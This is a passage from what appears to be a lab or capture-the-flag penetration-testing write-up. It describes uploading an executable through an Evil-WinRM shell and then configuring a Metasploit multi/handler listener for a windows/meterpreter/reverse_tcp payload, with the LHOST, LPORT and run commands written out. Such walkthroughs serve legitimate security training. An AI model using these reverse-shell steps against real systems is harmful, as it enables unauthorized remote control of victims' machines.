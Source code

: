Great, we have made a shell! With the current `Evil-winRM` shell we have, we can upload the .exec to the remote host.

![shell](docs/shell%209.png)

Next, we will use the Metasploit console to configure a listener for a reverse shell.

`msfconsole`

Select the `multi/handler` module which is used to listen from a compromised system.

`exploit/multi/handler`

![multi/handler](docs/multiculti%2010.png)

Now we will set the payload as `windows/meterpreter/reverse_tcp`, this will allows for a reverse `TCP` connection.

`set PAYLOAD windows/meterpreter/reverse_tcp`

Now set up your HOST and PORT.

```bash
set LHOST tun0
set LPORT 4444
```

After that type `run`.
